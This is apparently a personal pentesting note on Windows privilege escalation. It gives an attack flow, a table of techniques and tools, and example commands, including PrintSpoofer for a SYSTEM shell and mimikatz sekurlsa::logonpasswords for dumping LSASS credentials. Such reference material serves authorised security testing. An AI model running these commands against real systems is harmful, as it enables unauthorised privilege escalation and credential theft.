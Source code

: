 ```yaml
---
dg-publish: true
---
```

 
 

_Goal: Elevate privileges from a standard domain user or local user to administrator or SYSTEM level._

---

### **Objectives**

- Escalate from a low-privileged user to SYSTEM or local admin
    
- Identify misconfigurations, credentials, or service abuse opportunities
    
- Prepare for lateral movement or credential dumping
    

---


```mermaid
graph TD
    A[Initial Low Priv Access] --> B[Enumerate Privileges and Group Membership]
    B --> C[Check for Misconfigurations or Weak Services]
    B --> D[Look for Credentials or Password Reuse]
    C --> E[Exploit Service or Task for SYSTEM Shell]
    D --> E
    E --> F[Access to LSASS, SAM, or Registry]
    F --> G[Dump Hashes or Tokens]
```

  

---

### **Techniques and Tools**

|**Task**|**Tool/Command**|**Notes**|
|---|---|---|
|UAC Bypass|Invoke-BypassUAC, fodhelper, eventvwr tricks|Requires medium integrity token|
|Unquoted Service Paths|wmic service get name,displayname,pathname,startmode|Escalate if write access exists in service path|
|AlwaysInstallElevated|reg query HKCU\Software\Policies\Microsoft\Windows\Installer|If set to 1, MSI files can install as SYSTEM|
|Scheduled Tasks Abuse|schtasks, Get-ScheduledTask|Find misconfigured or writable scheduled tasks|
|DLL Hijacking|Procmon, Process Explorer|Load malicious DLL into privileged service|
|Credential Files|Search for .kdbx, .xml, .config, unattend.xml|Look for hardcoded or plaintext passwords|
|Token Manipulation|whoami /priv, mimikatz token::elevate|Impersonate available tokens or escalate with SeImpersonate|
|Print Spooler Exploits|PrintSpoofer.exe, SpoolSample|Abuse SeImpersonatePrivilege to elevate to SYSTEM|
|Service Permissions|accesschk.exe, Get-Service|Look for services with Start, ChangeConfig permission|

  

---

### **Example: PrintSpoofer to SYSTEM**

```
PrintSpoofer64.exe -i -c powershell.exe
```

  

---

### **Example: Unquoted Service Path Discovery**

```
wmic service get name,displayname,pathname,startmode | findstr /i "auto"
```

  

---

### **Example: Dumping LSASS with Mimikatz**

```
sekurlsa::logonpasswords
```

  

---

### **Pro Tips**

- If on a SQL Server, try enabling xp_cmdshell to execute commands as the SQL service account
    
- Use SharpUp.exe or Seatbelt.exe for automated checks
    
- Hashes from lsass or SAM enable lateral movement or DA impersonation
    
- Check for dropped tools or DLLs in C:\ProgramData, C:\Temp, or Public\Documents
    

